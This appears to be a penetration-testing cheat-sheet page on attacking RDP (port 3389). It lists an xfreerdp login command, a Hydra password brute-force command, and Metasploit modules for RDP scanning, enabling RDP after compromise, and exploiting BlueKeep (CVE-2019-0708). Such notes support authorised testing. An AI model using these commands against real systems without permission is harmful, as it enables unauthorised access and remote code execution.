 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 3389 - RDP

## XfreeRDP

is an X11 _<mark style="color:green;">Remote Desktop Protocol</mark>_ (RDP) client which is part of the FreeRDP project.

```bash
# Connect with AUTHENTICATION
xfreerdp /u:Administrator /p:password123 /v:$IP:$PORT
```

## Hydra

is a brute force tool that is installed in Kali Linux by default. It can brute force the password/user's file list in several protocols.

```bash
hydra -l "Administrator" -P /wordlists/passwords.txt rdp://$IP -s $PORT
```

## MSFconsole

is a framework that holds many exploits, backdoors, scanners, etc. This is also known as _<mark style="color:green;">Metasploit</mark>_, by default, it is installed on Kali Linux.

```
# Checking RDP present, none default `port:3389`
auxiliary/scanner/rdp/rdp_scanner

# Enabling RDP
post/windows/manage/enable_rdp

# Scan OS, if it's vulnerable to bluekeep
auxiliary/scanner/cve_2019_0708_bluekeep

# Exploit the bluekeep (64 bit)
exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```
